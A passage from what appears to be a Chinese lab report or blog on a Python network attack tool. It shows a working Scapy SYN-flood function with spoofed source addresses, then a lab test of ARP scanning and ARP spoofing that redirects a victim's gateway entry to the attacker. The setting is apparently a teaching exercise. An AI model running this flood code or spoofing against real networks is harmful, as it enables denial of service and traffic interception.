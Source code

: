 ```python
def synFlooi(tgt, dPort, k):  # 自定义函数
    i = 1
    while True:
        srcList = [
            '192' + '.' + str(random.randrange(254)) + '.' + str(random.randrange(254)) + '.' + str(
                random.randrange(254)),
            '10.' + str(random.randrange(254)) + '.' + str(random.randrange(254)) + '.' + str(random.randrange(254))]
        # 设置源ip地址
        sPort = random.randrange(1024, 65535)  # 设置端口
        index = random.randrange(0, 1)  # 选一个ip段
        ipLayer = IP(src=srcList[index], dst=tgt)
        tcpLayer = TCP(sport=sPort, dport=dPort, flags="S")  # 构造ip包
        packet = ipLayer / tcpLayer  # 构造tcp包
        send(packet)
        if k == i:
            break
        else:
            print(f'已经攻击次数{i}')
            i = i + 1

```

功能测试
===================================================================

构建局域网
--------------------------------------------------------------------

攻击环境如下图所示：  
![726ed692a3c74beb824563fc4a469c08.png](https://s2.loli.net/2023/07/15/NjyRSZEb9LTQMwY.png)

靶机，攻击机，PC机处于同一个局域网，通过路由器与外部服务器相连。各主机的IP与MAC地址下表所示：

| 序号 | 主机 | IP地址 | MAC地址 |
| --- | --- | --- | --- |
| 1 | 攻击机 | 192.168.43.166 | 10:63:c8:3a:39:93 |
| 2 | 靶机 | 192.168.43.203 | 38:ba:f8:80:40:49 |
| 3 | PC | 192.168.43.128 | b2:b9:c5:ed:6d:7b |
| 4 | 网关 | 192.168.43.1 | 12:73:53:7b:c3:a2 |

ARP扫描及ARP欺骗
--------------------------------------------------------------------------

（1）运行程序，选择ARP扫描功能,进行扫描，扫描结果如下：  
![04487bf4851a439785bbba2a80b88b15.png](https://s2.loli.net/2023/07/15/7jr2MdDqFhp1KE9.png)
扫描完成，一共扫描到四台主机分别为网关、攻击机、靶机、和PC机，以及每个主机对应的MAC地址。  
（2）进行ARP欺骗  
①首先查询靶机MAC地址表如下图：  
![87f1765eb2e94594a0584254f36e5141.png](https://s2.loli.net/2023/07/15/RhPyd1Vskw9ZScg.png) 
②在攻击机运行程序，选择ARP欺骗功能，输入靶机IP地址192.168.43.203以及攻击时间60 S进行ARP欺骗攻击，攻击效果如下：  
![4536e6ae909d44c785142f4eb1bd08c7.png](https://s2.loli.net/2023/07/15/7y9XHkhSWlV6LBr.png)
③打开wireshark抓包，有多个ARP数据包，如下图：  
![9eabefc4b00b49f9bbd25d28342c72a0.png](https://s2.loli.net/2023/07/15/usWSekvKTNFJVZ8.png) 
图 17 wireshark ARP抓包  
④在靶机上查询MAC地址表，发现网关的MAC地址变为攻击机的MAC地址，如下图：  
![bff465bdaac34298812d368511bba6fc.png](https://s2.loli.net/2023/07/15/x7ah1d93OI2ovNS.png)
